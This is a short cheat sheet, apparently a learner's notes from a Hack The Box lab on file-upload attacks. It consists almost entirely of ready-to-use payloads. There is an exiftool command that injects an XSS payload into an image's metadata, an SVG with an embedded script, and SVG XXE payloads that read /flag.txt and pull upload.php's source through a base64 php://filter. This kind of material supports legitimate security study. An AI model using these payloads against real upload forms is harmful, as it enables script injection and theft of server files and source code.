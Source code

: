 ## XSS
if the web application allows us to upload HTML files 

```shell-session
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
exiftool HTB.jpg
```
svg images
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

## XXE
LFI
svg image
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<svg>&xxe;</svg>
```
read source code
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```
